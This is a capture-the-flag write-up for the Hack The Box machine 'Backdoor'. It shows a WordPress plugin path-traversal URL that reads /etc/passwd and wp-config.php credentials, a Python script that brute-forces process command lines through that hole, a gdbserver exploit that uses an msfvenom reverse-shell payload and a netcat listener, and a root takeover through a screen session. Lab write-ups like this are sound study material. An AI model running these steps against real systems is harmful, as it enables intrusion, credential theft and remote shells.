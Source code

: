 ```yaml
---
title: Backdoor Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


## Enumeration

```ruby
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 3072 b4de43384657db4c213b69f3db3c6288 (RSA)
| 256 aac9fc210f3ef4ef4ec6b3570262253ef66 (ECDSA)
|_ 256 d28be4ec0761aacaf8ec1cf88cc1f6e1 (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Backdoor &#8211; Real-Life
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.8.1
1337/tcp open waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Applying a fuzzing, we see a lot of WordPress related files. If we look at the wappalyzer, we see that it uses version 5.8.1

## User Exploit

Investigating the directories of the website, we find `/wp-content/plugins`, inside which we find several files, one of them called eBook Downaload, so let's look for an exploit:
```shell
searchsploit wordpress ebook download
```

And we find the following exploit:

```shell
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../etc/passwd
```

Which abuses the path traversal to list files:

Once we run the command, we can now download and view /etc/passwd. 

Using the same command, we can view the wp-config.php, from which we can get the following information:
```mysql
define( 'DB_NAME', 'wordpress' );
/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );
/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );
/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );
/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

However, we cannot use these credentials anywhere. 

We are going to try to exploit port 1337, but since this has no general use as such, let's create a python script to see what process is running on it:
```python
#!/usr/bin/python3

from pwn import *
import requests, signal, sys, pdb, time

def def_handler (sig, frame):
    print ("[!] You pressed Ctrl+C").
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

main_url="http://10.129.220.82/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl="

def makeRequest():
    p1=log.progress("Brute Force status:")
    p1.status("Starting...")
    time.sleep(1)
    
    for i in range(1,1000):
    
        p1.status("Trying: "+str(i))
        
        url=main_url+"/proc/"+str(i)+"/cmdline"
        
        r=requests.get(url)
        
        if len(r.content)>82:
            print("------------------------------------------")
            log.info("Found PID: "+str(i)))
           # log.info("Total length: "+str(len(r.content))))
            log.info(r.content)
            print("------------------------------------------")
            
if __name__ == '__main__':
    makeRequest()
```

And we see some very interesting information:
```shell
[*] Found PID: 955
[*] /proc/955/cmdline/proc/955/cmdline/proc/955/cmdline/bin/sh\x00c\x00hile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0.0:1337 /bin/true;";
```

Moreover, it is running on port 1337, which is the one we are interested in. Therefore, we are dealing with a gdbserver, which has an exploit for its version 9.2

```shell
❯ python3 gbd.py

Usage: python3 gbd.py <gdbserver-ip:port> <path-to-shellcode>.

Example:
- Victim's gdbserver -> 10.10.10.10.200:1337
- Attacker's listener -> 10.10.10.10.100:4444

1. Generate shellcode with msfvenom:
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.100 LPORT=4444 PrependFork=true -o rev.bin

2. Listen with Netcat:
$ nc -nlvp 4444

3. Run the exploit:
$ python3 gbd.py 10.10.10.200:1337 rev.bin
```

We listen on port 4444 and run the script:

```python
python3 gbd.py 10.129.220.82:1337 rev.bin
```

and we would enter the machine as `user`.

## Root Exploit

Doing a `ps uax` we see that the following is executed as root:
```shell
root 956 0.0 0.0 0.0 2608 1756 ? Ss 11:53 0:01 /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root;; done
```

If we look at the screen manual, we can see what the parameters used in the above process mean:

-S -> create a session with the specified name (In our case root).

-d -> to make a dettach

-m -> ask screen to ingest the environment variable $STY 

So, using the `-x` parameter we could already synchronize to the root screen: `screen -x root/` . Another possible option would be `screen -r root/` .

And we will be able to see the root flag.
